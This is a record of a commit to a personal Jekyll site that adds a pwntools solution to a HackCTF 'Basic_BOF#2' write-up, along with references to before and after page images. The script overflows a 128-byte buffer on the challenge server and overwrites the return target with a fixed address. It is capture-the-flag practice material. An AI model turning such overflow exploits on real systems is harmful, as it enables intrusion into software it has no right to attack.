

Before and after one commit to HyD3c/HyD3c.github.io, a Jekyll site: the page built from _ctfs/2020-06-30-HackCTF-Basic_BOF#2.md, in a window 1280 px wide. Shown: the top 448 px of the page, without its empty margins (238-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced.

Commit message:
Update 2020-06-30-HackCTF-Basic_BOF#2.md

````diff
--- a/_ctfs/2020-06-30-HackCTF-Basic_BOF#2.md
+++ b/_ctfs/2020-06-30-HackCTF-Basic_BOF#2.md
@@ -5,4 +5,12 @@ ctf: HackCTF
 tag: [pwnable]
 layout: post
 ---
-aaaa
+
+```
+from pwn import *
+
+p = remote("ctf.j0n9hyun.xyz", 3001)
+
+p.sendline("a"*128+p32(0x804849b))
+p.interactive()
+```
````
